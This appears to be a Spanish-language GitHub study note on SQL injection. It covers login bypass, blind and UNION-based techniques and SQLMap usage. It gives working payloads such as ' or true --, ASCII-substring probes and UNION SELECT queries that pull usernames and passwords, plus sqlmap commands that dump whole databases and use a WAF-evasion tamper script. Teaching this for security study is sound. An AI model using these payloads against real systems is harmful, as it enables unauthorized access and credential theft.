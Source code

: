 # SqlInjection 

Security, Owasp top 10, Cron. (#nmap, #samba, #suid, #pathvarmanipulation #smb )

## Tabla de contenido

- [Introducción](#Introducción).
- [Login Bypass with SQL Injection](#Login-Bypass-with-SQL-Injection).
- [Blind SQL Injection](#Blind-SQL-Injection).
- [UNION SQL Injection](#UNION-SQL-Injection).
- [SQLMap](#SQLMap).


--------------------------------
### Introducción
-------------------------------

¿Qué es la inyección SQL?

 Un ataque de inyección SQL (SQLi) consiste en la inyección de una consulta SQL a la aplicación web remota.

--------------------------------
### Login Bypass with SQL Injection
-------------------------------

En una sintaxis de login de php se podrá observar como actua el SQL Injection
```
SELECT username,password FROM users WHERE username='$username' and password='$password'
```
Que sucede si colocamos en el campo de username lo siguiente: **' or true --'** 

```
SELECT username,password FROM users WHERE username='' or true -- and password=''
```

Generaríamos que valide el true y que comente el resto de la consulta.

--------------------------------
### Blind SQL Injection
-------------------------------

Conocido en español como inyeccion de sql ciega, la idea es realizar ataques buscando un respuesta true/false de la bd, tomando en cuenta la interacción de la aplicación y su comportamiento respecto a un error sql.

Extrae una subcadena de una cadena y nos permite comparar la subcadena con un carácter ASCII personalizado.
```
substr((select database()),1,1)) = 115
```
Comparando con el elemento 115 del código ASCII.

Finalmente se vería de está manera:
```
?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+
```
De tal modo que si la aplicación muestra algo es **True** mientras que si no produce nada es **False**:

-------------------------------
### UNION SQL Injection
-------------------------------
Permite la enumeración rápida de base de datos, **UNION** permite combinar resultados de varias sentencias **SELECT**.

Tiene 3 etapas:

* Encontrar el número de columnas.
* Comprobando si las columnas son adecuadas.
* Ataca y obtén algunos datos interesantes.

Tiene 2 formas de atacar:

1) Ataque con ORDER BY:

    ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    ```
    El que produzca el error determina que el valor anterior es la cantida de columnas.

2) Enviar una serie de cargas útiles de UNION SELECT con varios valores NULL

    ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    ```
    El que no produzca error determina la cantdiad de columnas.

    2.1) Encontrar columnas con un tipo de datos útil en un ataque UNION de inyección SQL

    Puede sondear cada columna para probar si puede contener datos de cadena reemplazando una de las cargas útiles de UNION SELECT con un valor de cadena:
    ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
    Sin error = el tipo de datos es útil para nosotros (cadena).

    2.2) Usando un ataque UNION de inyección SQL para recuperar datos interesantes

    Cuando haya determinado el número de columnas y haya encontrado qué columnas pueden contener datos de cadena, finalmente puede comenzar a recuperar datos interesantes.

    Suponer que:

    Los dos primeros pasos mostraron exactamente dos columnas existentes con tipos de datos útiles.
    La base de datos contiene una tabla llamada usuarios con las columnas nombre de usuario y contraseña.
    En esta situación, puede recuperar el contenido de la tabla del usuario enviando la entrada:

    ```
    ' UNION SELECT username, password FROM users --
    ```
    Esta lista muestra valores importantes a obtener:
    
    * base de datos()
    * usuario()
    * @@versión
    * nombre de usuario
    * contraseña
    * nombre de la tabla
    * column_name

-------------------------------
### SQLMap
-------------------------------

Para instalarlo:
```
git clone --depth 1 <https://github.com/sqlmapproject/sqlmap.git> sqlmap-dev
```

Opciones de SQLMap:

| Comando       | Significado	 | 
| :---          |     :---:      |  
| --url	        | Proporcionar URL para el ataque         |
| --dbms	    | Dile a SQLMap el tipo de base de datos que se está ejecutando         |
| --dump	    | Volcar los datos dentro de la base de datos que usa la aplicación |
| --dump-all	| Volcar la base de datos COMPLETA|
| --batch		| SQLMap se ejecutará automáticamente y no solicitará la entrada del usuario  |

Ejemplos:

1) Atacar un objetivo:
2) Mostrar los resultados obtenidos:
```
sqlmap --url http://tbfc.net/login.php
sqlmap --url http://tbfc.net/login.php --tables --columns
```
3) Atacar un request obtenido por burpsuite:
```
sqlmap -r panel.request --tamper=space2comment --dump-all --dbms sqlite
```
* panel.request :           Archivo guardado de request
* --tamper=space2comment:   Intente omitir el WAF
* --dump-all:               Dumpee todas las tablas

Más lista de comandos en el siguiente link: https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet


